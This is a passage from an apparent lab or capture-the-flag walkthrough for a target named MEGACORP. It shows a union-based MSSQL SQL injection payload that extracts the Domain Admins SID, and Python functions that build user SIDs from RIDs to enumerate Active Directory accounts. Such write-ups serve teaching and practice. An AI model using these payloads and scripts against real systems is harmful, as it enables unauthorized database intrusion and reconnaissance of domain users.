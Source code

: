 We get MEGACORP as the result. We already know that this is correct from our nmap scan.

```python
def get_Domain():
    payload = gen_payload('DEFAULT_DOMAIN()')
    domain = send(payload)
    return domain
```

Next we need to get the Domain-SID. For this we get the SID of any domain user and then take the first 48 bytes. The SQL function to do so is called `SUSER_SID` and we additionally use `sys.fn_varbintohexstr` to get the result as hex. Therefore our payload looks like this:

```sql
a' UNION ALL SELECT 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),3,4,5 --
```

```json
[{"id":1,"name":"0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000","position":"3","email":"4","src":"5"}]
```

We get `0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000` as a result. We now have to take the first 48 bytes. (Remove first two bytes [0x])

```python
def get_Domain_sid(domain):
    domain_group = f"{domain}\Domain Admins" # Try to get SID
    # This injections tries to get the SID for the Domain Admins and converts it to hex
    payload = f"sys.fn_varbintohexstr(SUSER_SID('{domain_group}'))"
    injection = gen_payload(payload)
    sid = send(injection)
    sid = sid.upper()[2:50] # Crop response to remove "0x" and RID from response
    return sid
```

This gives us a Domain-SID of: `0105000000000005150000001C00D1BCD181F1492BDFC236`.

Next up we need to build the user-SIDs from the Domain-SID and the RID. For this we convert the RID to hex, and remove the 0x. Then we swap the hex pairs and pad to 8 bytes.

```python
def build_user_sid(domain_sid, rid):
    # Convert number to hex and fix order
    rid = f"0{hex(rid).upper()[2:]}" # Change RID to hex and remove leading 0x
    principal_id = rid[2:] + rid[:-2] # Swap hex pairs
    principal_id = principal_id.ljust(8, '0') # Add padding
    # Return full SID
    return f"0x{domain_sid}{principal_id}"
```

We now can generate Domain-SIDs for every potential RID. Finally we can use `SUSER_SNAME` to check the SID against the domain and check if we get a user back.

Example: The Administrator always has the RID 500. Using our script we get the Administrators SID:

```python
build_user_sid(domain_sid, 500)
'0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000'
```

